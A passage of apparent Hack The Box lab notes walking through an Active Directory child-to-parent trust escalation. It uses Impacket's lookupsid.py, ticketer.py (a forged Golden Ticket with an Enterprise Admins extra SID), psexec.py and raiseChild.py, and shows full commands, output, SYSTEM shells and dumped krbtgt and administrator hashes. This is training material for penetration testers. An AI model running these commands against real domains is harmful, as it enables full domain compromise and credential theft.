### Grabbing the Domain SID & Attaching to Enterprise Admin's RID

Next, you can rerun the command, targeting the INLANEFREIGHT DC at 172.16.5.5 and grab the domain SID ```S-1-5-21-3842939050-3880317879-2865463114``` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

```bash
d41y@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

### Constructing a Golden Ticket using ticketer.py

Next, you can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain and the parent domain.

```bash
d41y@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

The ticket will be saved down to your system as a credential cache (_ccache_) file, which is a file used to hold Kerberos credentials.

### Setting the KRB5CCNAME Environment Variable

Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.

```bash
d41y@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

### Getting a SYSTEM shell using Impacket's psexec.py

You can check if you can successfully authenticate to the parent domain's DC using Impacket's version of Psexec. If succesful, you will be dropped into a SYSTEM shell on the target DC.

```bash
d41y@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

### Performing the Attack with raiseChild.py

Impacket also has the tool raiseChild.py, which will automate escalating from child to parent domain. You need to specify the target DC and credentials for an administrative user in the child domain; the script will do the rest. If you walk through the output, you see that it starts by listing out the child and parent domain's fully qualified domain names. It then:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

### Performing the Attack with raiseChild.py

Finally, if the ```target-exec``` switch is specified, it authenticates to the parent's DC via Psexec.

```bash
d41y@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Stopping service UVNb.....
[*] Removing service UVNb.....
[*] Removing file BnEGssCE.exe.....
```

The script lists out the workflow and process in a comment as follows:

```python
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
#           4) Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch).
#              Enterprise Admin by default.
#
#       Process:
#           1) Find out where the child domain controller is located and get its info (via [MS-NRPC])
#           2) Find out what the forest FQDN is (via [MS-NRPC])
#           3) Get the forest's Enterprise Admin SID (via [MS-LSAT])
#           4) Get the child domain's krbtgt credentials (via [MS-DRSR])
#           5) Create a Golden Ticket specifying SID from 3) inside the KERB_VALIDATION_INFO's ExtraSids array
#              and setting expiration 10 years from now
#           6) Use the generated ticket to log into the forest and get the target user info (krbtgt/admin by default)
#           7) If file was specified, save the golden ticket in ccache format
#           8) If target was specified, a PSEXEC shell is launched
#
#       Output:
#           1) Target user credentials (Forest's krbtgt/admin credentials by default)
#           2) A golden ticket saved in ccache for future fun and profit
#           3) PSExec Shell with the target-user privileges (Enterprise Admin privileges by default) at target-exec
#              parameter.
```